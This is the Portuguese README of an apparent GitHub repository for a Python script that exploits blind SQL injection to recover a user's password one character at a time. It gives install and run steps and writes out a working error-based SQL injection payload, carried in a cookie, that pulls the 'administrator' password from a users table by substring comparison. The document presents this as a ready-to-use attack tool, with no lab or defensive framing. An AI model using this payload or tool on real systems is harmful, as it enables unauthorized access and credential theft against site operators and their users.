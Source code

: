 # Blind SQL Injection Exploit

Este repositório contém um script Python para explorar vulnerabilidades de **Blind SQL Injection** em uma aplicação web. O script é projetado para descobrir senhas de usuários de forma incremental, testando caracteres um por um.

## 📋 Requisitos ##

- Python 3
- Biblioteca `requests` instalada (`pip install requests`)

## 🚀 Como Usar ##

1. **Clone o repositório:**
   ```bash
   git clone https://github.com/seu-usuario/sqli-exploit.git
   cd sqli-exploit
   
2. **Configure o exploit com os parametros de ataque**
-- Linha 97:
"Configurações do ataque
url = "https://url.com"
max_requests = 1000 -- Valor limite da requisição no pool
status_check = 500 -- Status de retorno
cookie_template = "'||(SELECT CASE WHEN SUBSTR(password,$1,1)='$2' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" -- SQLi
tamanho_senha = 20  # Defina o comprimento estimado da senha" -- Tamanho da senha. "

3. **Execute o exploit**
   python3 fuzzer_for_blind_sqli.py
